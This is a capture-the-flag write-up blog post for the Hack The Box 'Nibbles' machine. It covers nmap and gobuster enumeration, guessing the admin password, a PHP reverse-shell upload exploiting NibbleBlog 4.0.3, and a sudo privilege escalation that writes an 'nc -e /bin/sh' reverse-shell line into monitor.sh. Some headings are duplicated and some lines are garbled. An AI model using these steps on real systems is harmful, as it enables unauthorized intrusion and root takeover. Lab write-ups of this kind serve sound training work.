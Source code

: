 ```yaml
---
title: "HTB - Nibbles without MetaSploit"
date: 2021-02-17
draft: true
categories: ["hacking", "write-ups"]
tags: [HTB]
featuredImage: "/images/2021/02/Nibbles_Logo.png"
---
```

## Intro
Easy box, according to HTB notation, also not a very good user's rating. Let's see what it is about!

## Target
[HTB - Nibbles](https://app.hackthebox.eu/machines/121)

## Recon
Quick recon according to logo and info :

* Linux box ;
* Misc : web, misconfiguration.

## Enum

Classic `nmap` scan :

```text
sudo nmap -T4 -A -p- -oA scan $target_ip
```
```text
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-17 16:42 CET
Nmap scan report for $target_ip
Host is up (0.023s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=2/17%OT=22%CT=1%CU=31405%PV=Y%DS=2%DC=T%G=Y%TM=602D399
OS:3%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=10C%TI=Z%CI=I%II=I%TS=8)OPS
OS:(O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST1
OS:1NW7%O6=M54DST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN
OS:(R=Y%DF=Y%T=40%W=7210%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 8080/tcp)
HOP RTT      ADDRESS
1   23.69 ms 10.10.14.1
2   24.01 ms $target_ip

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.45 seconds
```

Let's enumerate web folders in CLI, for a change :

```text
gobuster dir -u http://$target_ip -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -t 200 -x .php

```
This won't give us much information, however by browsing to the website and checking its source we find a new URL :

![Nibbles Check Source](/images/2021/02/Nibbles_Check_Source.png)

We fire `gobuster` one more time, with this new URL :

```text
gobuster dir -u http://$target_ip/nibbleblog/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -t 200 -x .php

```
```text
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://$target_ip/nibbleblog/
[+] Threads:        200
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php
[+] Timeout:        10s
===============================================================
2021/02/17 16:54:47 Starting gobuster
===============================================================
/themes (Status: 301)
/feed.php (Status: 200)
/admin (Status: 301)
/admin.php (Status: 200)
/plugins (Status: 301)
/install.php (Status: 200)
/update.php (Status: 200)
/languages (Status: 301)
/index.php (Status: 200)
/content (Status: 301)
/sitemap.php (Status: 200)
===============================================================
2021/02/17 16:55:21 Finished
===============================================================p
```
## Target

[HTB - Nibbles](https://app.hackthebox.eu/machines/121)

## Intro
It will reveal juicier info, such as `admin.php`, `install.php`, `sitemap`, etc.

Going to `install.php` will tell us the site is already installed and propose to upgrade it which will eventually leak `NibbleBlog version 4.0.3` :

![Nibbles Version](/images/2021/02/Nibbles_Version.png)

By checking source code on Github, we also find juicy directory in `/content/private` :

![Nibbles Directory Listing](/images/2021/02/Nibbles_Dir_List.png)

Now checking `searchsploit` we find that our version is vulnerable to [Authenticated Arbitrary File Upload](https://www.exploit-db.com/exploits/38489). It means we need to get the credentials. 

By looking inside the users.xml file we can suppose that `admin` is the login. 

## Exploitation

Now, we could try to brute force the admin area, however it won't be effective since Nibbleblog will temporarily block our IP after a few attempts:

![Nibbles WAF](/images/2021/02/Nibbles_WAF.png)

Here, again, I spent way more time than I care to admit. You have to find the password, but can't "crack" it which means we have to guess it. I tried a lot of stuff... but couldn't find it, so I cheated... again!

We know the password is `admin`, and the password is `nibbles`, like the box's name (which I tried), but I uesd a capital `N`.

![Nibbles Admin Area](/images/2021/02/Nibbles_Admin_Area.png)

Now that we have our credentials, we can finally start playing with the CVE we found earlier! Since, we are trying to solve this without MetaSploit, we need to find a [manual way](https://curesec.com/blog/article/blog/NibbleBlog-403-Code-Execution-47.html) to exploit our target.

Let's create a [php shell(https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)], thanks to Pentest Monkey and upload it via the Image plugin located at `http://10.129.99.80/nibbleblog/admin.php?controller=plugins&action=config&plugin=my_image`, then we will run shell my going to this URL : `http://10.129.99.80/nibbleblog/content/private/plugins/my_image/image.php`. The filename will always be `image.ext` with `ext` being the "real" extension.

NB : do not forget to start your listener : `nc -nlvp 1234`.

And we are in, unfortunately as `nibbler` and not `root` :

![Nibbles Initial Shell](/images/2021/02/Nibbles_Initial Shell.png)

Let's still grab the user flag :

![Nibbles User Flag](/images/2021/02/Nibbles_User_Flag.png)

And now... we need to escalate our priv!

### PrivEsc

Before we can have a chance to elevate our privs, we should do more [internal recon](https://www.masoopy.com/cheatsheets/got-shell/).

We'll upload [LSE](https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh), in order to check for any "entry points" to privileges escalation.

We will serve our script via `sudo python2 -m SimpleHTTPServer 80` since our target doesn't seem to resolve Github's domain's and download it with `curl`.

Once it downloaded, give it exec right, then run it. Something interesting will come up :

![Nibbles LSE Sudo](/images/2021/02/Nibbles_LSE_Sudo.png)

This means that we'll be able to run anything as `root` as long as it is in `/home/nibbler/personal/stuff/monitor.sh`.

All right! Let's try to run a reverse shell :

```text
cd /home/nibbler
echo "#!/bin/bash" > personal/stuff/monitor.sh
echo "nc -e "/bin/sh" $attacking_ip 1235" >> personal/stuff/monitor.sh
chmod +x personal/stuff/monitor.sh
```

Now we run it :

`sudo /home/nibbler/personal/stuff/monitor.sh`

NB : don't forget to start the listener on your attacking machine.

And that's it, we have root :

![Nibbles Root Shell](/images/2021/02/Nibbles_Root_Shell.png)

And we grab the last flag  :

![Nibbles Root Flag](/images/2021/02/Nibbles_Root_Flag.png)

## Outro

Let me be blunt. Getting the admin's password sucked, and was no fun at all. By judging from the comments on the forum and the poor notation, I guess I wasn't the only one really frustrated while trying to get initial access. However, once I was in, while it was pretty easy, it was also super fun and really enjoyed this box!